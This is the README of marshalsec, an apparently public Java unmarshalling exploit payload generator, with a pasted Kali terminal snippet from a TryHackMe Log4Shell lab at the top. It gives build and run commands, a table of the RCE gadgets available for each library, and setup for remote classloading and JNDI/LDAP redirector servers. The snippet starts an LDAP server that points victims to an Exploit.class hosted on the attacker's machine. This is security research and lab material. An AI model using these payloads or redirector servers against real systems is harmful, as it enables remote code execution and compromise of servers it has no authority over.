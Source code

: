 # Java Unmarshaller Security - Turning your data into code execution

If you came here for Log4Shell/CVE-2021-44228, you may want to read about 
the exploitation vectors and affected Java runtime versions:
<https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/>

(kali㉿kali)-[~/thm/solar/marshalsec]
$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.9.1.181:8000/#Exploit"

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

Listening on 0.0.0.0:1389

Send LDAP reference result for Exploit redirecting to http://10.9.1.181:8000/Exploit.class


## Paper

It's been more than two years since Chris Frohoff and Garbriel Lawrence have presented their research into Java object deserialization vulnerabilities ultimately resulting in what can be readily described as the biggest wave of remote code execution bugs in Java history.

Research into that matter indicated that these vulnerabilities are not exclusive to mechanisms as expressive as Java serialization or XStream, but some could possibly be applied to other mechanisms as well.

This paper presents an analysis, including exploitation details, of various Java open-source marshalling libraries that allow(ed) for unmarshalling of arbitrary, attacker supplied, types and shows that no matter how this process is performed and what implicit constraints are in place it is prone to similar exploitation techniques.

Full paper is at [marshalsec.pdf](https://www.github.com/mbechler/marshalsec/blob/master/marshalsec.pdf?raw=true)

## Disclaimer

All information and code is provided solely for educational purposes and/or testing your own systems for these vulnerabilities.

## Usage

Java 8 required. Build using maven ```mvn clean package -DskipTests```. Run as

```shell
java -cp target/marshalsec-[VERSION]-SNAPSHOT-all.jar marshalsec.<Marshaller> [-a] [-v] [-t] [<gadget_type> [<arguments...>]]
```

where

* **-a** - generates/tests all payloads for that marshaller
* **-t** - runs in test mode, unmarshalling the generated payloads after generating them.
* **-v** - verbose mode, e.g. also shows the generated payload in test mode.
* **gadget_type** - Identifier of a specific gadget, if left out will display the available ones for that specific marshaller.
* **arguments** - Gadget specific arguments

Payload generators for the following marshallers are included:<br />

| Marshaller                      | Gadget Impact
| ------------------------------- | ----------------------------------------------
| BlazeDSAMF(0&#124;3&#124;X)     | JDK only escalation to Java serialization<br/>various third party libraries RCEs
| Hessian&#124;Burlap             | various third party RCEs
| Castor                          | dependency library RCE
| Jackson                         | **possible JDK only RCE**, various third party RCEs
| Java                            | yet another third party RCE
| JsonIO                          | **JDK only RCE**
| JYAML                           | **JDK only RCE**
| Kryo                            | third party RCEs
| KryoAltStrategy                 | **JDK only RCE**
| Red5AMF(0&#124;3)               | **JDK only RCE**
| SnakeYAML                       | **JDK only RCEs**
| XStream                         | **JDK only RCEs**
| YAMLBeans                       | third party RCE

## Arguments and additional prerequisites

### System Command Execution

* **cmd** - command to execute
* **args...** - additional parameters passed as arguments

No prerequisites.

### Remote Classloading (plain)

* **codebase** - URL to remote codebase
* **class** - Class to load

**Prerequisites**:

* Set up a webserver hosting a Java classpath under some path.
* Compiled class files to load need to be served according to Java classpath conventions.

### Remote Classloading (ServiceLoader)

* **service_codebase** - URL to remote codebase

The service to load is currently hardcoded to *javax.script.ScriptEngineFactory*.

**Prerequisites**:

* Same as plain remote classloading.
* Also needs a provider-configuration file at *<codebase>*/META-INF/javax.script.ScriptEngineFactory
  containing the targeted class name in plain text.
* Target class specified there needs to implement the service interface *javax.script.ScriptEngineFactory*.


### JNDI Reference indirection

* **jndiUrl** - JNDI URL to trigger lookup on


**Prerequisites**:

* Set up a remote codebase, same as remote classloading.
* Run a JNDI reference redirector service pointing to that codebase -
  two implementations are included: *marshalsec.jndi.LDAPRefServer* and *RMIRefServer*.
  ```shell
  java -cp target/marshalsec-[VERSION]-SNAPSHOT-all.jar marshalsec.jndi.(LDAP|RMI)RefServer <codebase>#<class> [<port>]
  ```
* Use (ldap|rmi)://*host*:*port*/obj as the *jndiUrl*, pointing to that service's listening address.

## Running tests

There are a couple of system properties that control the arguments when running tests (through maven or when using **-a**)

* **exploit.codebase**, defaults to *http://localhost:8080/*
* **exploit.codebaseClass**, defaults to *Exploit*
* **exploit.jndiUrl**, defaults to *ldap://localhost:1389/obj*
* **exploit.exec**, defaults to */usr/bin/gedit*

Tests run with a SecurityManager installed that checks for system command execution as well as code executing from remote codebases.
For that to work the loaded class in use must trigger some security manager check.



